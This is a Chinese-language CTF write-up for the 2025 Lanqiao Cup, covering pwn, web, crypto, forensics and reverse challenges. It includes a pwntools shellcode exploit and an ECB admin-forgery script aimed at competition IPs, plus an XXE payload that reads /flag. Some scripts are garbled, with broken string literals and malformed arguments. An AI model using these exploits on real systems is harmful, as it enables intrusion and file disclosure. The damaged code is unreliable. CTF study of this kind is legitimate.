# 2025蓝桥杯网络安全全部wp-先知社区

> **来源**: https://xz.aliyun.com/news/17896  
> **文章ID**: 17896

---

## RuneBreachimage.png

  
简简单单一个orw,开启了沙箱,没什么难度

```
from pwn import *
context(arch="amd64",log_level='debug')
#p = process("./chall")
p = remote('47.94.152.21',20627)

for i in range(4):
    p.sendlineafter("Defend? (y/N): ","n")

p.recvuntil("[BOSS] Your place is mine now ")
addr = int(p.recv(14),16)
print(addr)
co = shellcraft.open("/flag")
co += shellcraft.read(3,"rsp",0x40)
co += shellcraft.write(1,"rsp",0x40)
p.recvuntil("territory: ")
p.sendline(asm(co))
p.interactive()
```

## 星际XML解析器



```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE hack [
<!ENTITY admin SYSTEM  "file:///flag">  
]>
<user>
  <username>&admin;</username>  
  <password>password</password>
</user>
```

## Flowzip

抓包筛选直接出flag  
  
直接出



## ezEvtx

习惯性看一下4663,查了一下文件直接就出来了

## 黑客迷失逃脱

点进去看到了一个secret的字符  
  
试了一下拿到了源码,然后去   
  
全部拿到了直接跑

```
def ni_decrypt(hex_string, key):
    encrypted = bytes.fromhex(hex_string)
    decrypted = ""
    for i in range(len(encrypted)):
        key_char = key[i % len(key)]
        decrypted += chr(encrypted[i] - ord(key_char))
    return decrypted

encrypted_text = "d9d1c4d9e0a88fa2cab265946c60d49995a592a8969f9aa66a6a6865a097c9d8c7a8c29bc9b194656ab0"
key = "secret_key2363" 
flag = ni_decrypt(encrypted_text, key)
print(flag)
```

## Enigma

拿到看到是Enigma直接放到赛博厨子里  
  
也是直接就出了

## ECBTrain

一个伪造块的ecb密码题  
构造admin  
输出的字符不好看先解码一下

```
raw_bytes = b'\xe8\xaf\xb7\xe9\x80\x89\xe6\x8b\xa9\xe6\x93\x8d\xe4\xbd\x9c\xef\xbc\x9a
1. \xe6\xb3\xa8\xe5\x86\x8c
2. \xe7\x99\xbb\xe5\xbd\x95
3. \xe9\x80\x80\xe5\x87\xba
\xe8\xaf\xb7\xe8\xbe\x93\xe5\x85\xa5\xe9\x80\x89\xe9\xa1\xb9\xe7\xbc\x96\xe5\x8f\xb7: '
#rar = b'\xe8\xaf\xb7\xe8\xbe\x93\xe5\x85\xa5\xe7\x94\xa8\xe6\x88\xb7\xe5\x90\x8d: \xe8\xaf\xb7\xe8\xbe\x93\xe5\x85\xa5\xe5\xaf\x86\xe7\xa0\x81: '
#rar  = '\xe8\xaf\xb7\xe8\xbe\x93\xe5\x85\xa5\xe5\xaf\x86\xe7\xa0\x81: \xe6\xb3\xa8\xe5\x86\x8c\xe6\x88\x90\xe5\x8a\x9f\xef\xbc\x81\xe4\xbd\xa0\xe7\x9a\x84auth\xe4\xb8\xba: itmK6EbGSrQQsrURACJWQw==

\xe8\xaf\xb7\xe9\x80\x89\xe6\x8b\xa9\xe6\x93\x8d\xe4\xbd\x9c\xef\xbc\x9a
1. \xe6\xb3\xa8\xe5\x86\x8c
2. \xe7\x99\xbb\xe5\xbd\x95
3. \xe9\x80\x80\xe5\x87\xba
\xe8\xaf\xb7\xe8\xbe\x93\xe5\x85\xa5\xe9\x80\x89\xe9\xa1\xb9\xe7\xbc\x96\xe5\x8f\xb7: '
#rar = b'\xe8\xaf\xb7\xe8\xbe\x93\xe5\x85\xa5\xe5\xaf\x86\xe7\xa0\x81: \xe6\xb3\xa8\xe5\x86\x8c\xe6\x88\x90\xe5\x8a\x9f\xef\xbc\x81\xe4\xbd\xa0\xe7\x9a\x84auth\xe4\xb8\xba '
rar = '\xe3\x80\x82
\xe8\xaf\xb7\xe8\xbe\x93\xe5\x85\xa5'
decoded_str = raw_bytes.decode('utf-8')
decoded_str1 = rar.decode('utf-8')
print("解码后的字符串：
", decoded_str)
print("解码后的字符串：
", decoded_str1)
options = decoded_str.split('
')
for option in options:
    if option.strip():
        print("提取项：", option.strip())
```

解码之后看到需要伪造admin登陆后即可获得flag  
块对齐使用这个 b""\*16+b""\*16+b""\*16+b"admin")

```
from pwn import*
context.os = 'linux'
context.log_level = "debug"
p=remote('47.94.152.21',35415)
#raw_bytes = '\xe8\xba\xab\xe4\xbb\xbd\xe7\x99\xbb\xe5\xbd\x95\xe5\xb0\xb1\xe7\xbb\x99\xe4\xbd\xa0flag\xe3\x80\x82
\xe8\xaf\xb7\xe8\xbe\x93\xe5\x85\xa5'
def app(a):
    decoded_str = a.decode('utf-8')
    print("解码后的字符串：
", decoded_str)
    if "auth" in decoded_str:
        print("提示：程序正在请求输入 auth 信息")


p.recvuntil(b'\__,_|_|_| |_|

')
p.sendline(str(1))
a = p.recv()
app(a)
p.sendline(b"\x0f"*16+b"\x0f"*16+b"\x0f")
a = p.recv()
app(a)
p.sendline(str(123))
c = p.recvline().decode().strip().split(": ")[-1]
print(c)
p.sendline(str(1))
a = p.recv()
app(a)
p.sendline(b"b"\x0f"*16+b"\x0f"*16+b"\x0f"*16+b"admin"")
a = p.recv()
app(a)
p.sendline(str(123))
d = p.recvline().decode().strip().split(": ")[-1]
d = d[len(c):].encode()
p.sendline(str(2))
a = p.recv()
app(a)
p.sendline(d)
print(p.recvline().decode())
print(p.recvline().decode())
print(p.recvline().decode())
```

直接出flag

## easy\_AES

通过候选集合和对比约束条件，寻找密钥 key0 的映射，使得能够正确解密密文并还原明文。

```
from Cryptodome.Cipher import AES

b = {
    '7': ['3', '4', '5', '6', '7', '8', '9', 'a', 'b'],
    '4': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b'],
    'a': ['a', 'b', 'c', 'd', 'e', 'f'],
    'e': ['c', 'd'],
    'b': ['9', 'a', 'b', 'c', 'd'],
    '3': ['1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd'],
    '5': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a'],
    '6': ['4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd'],
    'c': ['0', '1', '2', '3'],
    'f': ['7'],
    'd': ['c', 'd', 'e'],
    '1': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e'],
    '9': ['0', '1', '2', '3', '4', '5', '6'],
    '0': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f']
}

gift = 64698960125130294692475067384121553664
key1_hex = "74aeb356c6eb74f364cd316497c0f714"
cipher = b'6\xbf\x9b\xb1\x93\x14\x82\x9a\xa4\xc2\xaf\xd0L\xad\xbb5\x0e|>\x8c|\xf0^dl~X\xc7R\xcaZ\xab\x16\xbe r\xf6Pl\xe0\x93\xfc)\x0e\x93\x8e\xd3\xd6'

char_to_num = {f"{i:x}": i for i in range(16)}
b_numeric = {char_to_num[k]: [char_to_num[c] for c in v] for k, v in b.items()}
key1_digits = [char_to_num[c] for c in key1_hex]

gift_bin = bin(gift)[2:].zfill(128)
gift_nibbles = [int(gift_bin[i*4 : (i+1)*4], 2) for i in range(32)]

candidates = []
for i in range(32):
    k, g = key1_digits[i], gift_nibbles[i]
    user_candidates = b_numeric.get(k, list(range(16)))  # 获取符合用户约束的候选
    candidates.append([c for c in user_candidates if (c & k) == g])  # 筛选符合按位操作的候选

def solve():
    used = [False] * 16 
    mapping = {}：

    def backtrack(pos):
        if pos == 32: 
            key0_digits = [mapping[k] for k in key1_digits]  
            key0_hex = "".join(f"{c:x}" for c in key0_digits)
            try:
               
                aes0 = AES.new(bytes.fromhex(key0_hex), AES.MODE_CBC, bytes.fromhex(key1_hex))
                aes1 = AES.new(bytes.fromhex(key1_hex), AES.MODE_CBC, bytes.fromhex(key0_hex))
                plaintext = aes0.decrypt(aes1.encrypt(cipher))
                if b"flag{" in plaintext:  # 如果找到明文
                    print("Found valid key0:", key0_hex)
                    print("Flag:", plaintext.decode())
                    return True
            except:  
                pass
            return False

        k = key1_digits[pos] 
        if k in mapping:  
            return backtrack(pos + 1)

        for c in candidates[pos]:  
            if not used[c]:  
            
                valid = all(
                    (c & key1_digits[f_pos]) == gift_nibbles[f_pos]
                    for f_pos in range(pos + 1, 32)
                    if key1_digits[f_pos] == k
                )
                if not valid:
                    continue  

           
                used[c], mapping[k] = True, c
                if backtrack(pos + 1):  
                    return True
             
                del mapping[k]
                used[c] = False

        return False

    return backtrack(0)

if not solve():
print("No valid mapping found.")
```

## ShadowPhases

  
定位strcmp函数,进去直接看rdx  


## BashBreaker

和 ai 玩游戏的题， 先走 3 步 AI 走 x 步，玩家走(4-x)步 重复步骤 2 直到获胜 获胜后记录输出的十六进制字符串 拿到 key  
  
encrypted\_key 下面有一个 ONE\_PIECE  
但是拿不到真正的flag

```
#include<stdio.h>

#define TCPF_TIME_WAIT 64
#define TCPF_NEW_SYN_RECV 4096
#define _QWORD unsigned long long
#define _DWORD unsigned int
#define _BYTE unsigned char

__int64 __fastcall rc4_init(__int64 a1, __int64 a2, unsigned __int64 a3) {
    char v4;
    int j, v6, i;

    for (i = 0; i <= 255; ++i)
        *(_BYTE *)(a1 + i) = i;
    v6 = 0;
    for (j = 0; j <= 255; ++j) {
        v6 = ((*(_BYTE *)(j % a3 + a2) ^ 0x37) + *(unsigned __int8 *)(a1 + j) + v6) % 256;
        v4 = *(_BYTE *)(a1 + j);
        *(_BYTE *)(a1 + j) = *(_BYTE *)(a1 + v6);
        *(_BYTE *)(a1 + v6) = v4;
    }
    *(_DWORD *)(a1 + 260) = 0;
    *(_DWORD *)(a1 + 256) = *(_DWORD *)(a1 + 260);
    return a1;
}

__int64 __fastcall rc4_next(__int64 a1) {
    unsigned __int8 v2;
    char v3;

    *(_DWORD *)(a1 + 256) = (*(_DWORD *)(a1 + 256) + 1) % 256;
    *(_DWORD *)(a1 + 260) = (*(_DWORD *)(a1 + 260) + *(unsigned __int8 *)(a1 + *(int *)(a1 + 256))) % 256;
    v3 = *(_BYTE *)(a1 + *(int *)(a1 + 256));
    *(_BYTE *)(a1 + *(int *)(a1 + 256)) = *(_BYTE *)(a1 + *(int *)(a1 + 260));
    *(_BYTE *)(a1 + *(int *)(a1 + 260)) = v3;
    v2 = *(_BYTE *)(a1 + (unsigned __int8)(*(_BYTE *)(a1 + *(int *)(a1 + 256)) + *(_BYTE *)(a1 + *(int *)(a1 + 260))));
    return (16 * v2) | (unsigned int)(v2 >> 4);
}

void main() {
    unsigned char box[0x200];
    unsigned char ONE_PIECE[48] = {
        0xBB, 0xCA, 0x12, 0x14, 0xD0, 0xF1, 0x99, 0xA7, 0x91, 0x48, 0xC3, 0x28, 0x73, 0xAD, 0xB7, 0x75,
        0x8C, 0x89, 0xCD, 0xDD, 0x2D, 0x50, 0x5D, 0x7F, 0x95, 0xB1, 0xA4, 0x9D, 0x09, 0x43, 0xE1, 0xD2,
        0xE9, 0x66, 0xEA, 0x18, 0x98, 0xC6, 0xCC, 0x02, 0x39, 0x18
    };
    unsigned char real_key[] = "EC3700DFCD4F364EC54B19C5E7E26DEF6A25087C4FCDF4F8507A40A9019E3B48BD70129D0141A5B8F089F280F4BE6CCD";

    rc4_init((__int64)box, (__int64)real_key, 96);
    for (int i = 0; i < 42; i++) {
        ONE_PIECE[i] ^= rc4_next((__int64)box);
    }
    printf("%s", ONE_PIECE);
}
```
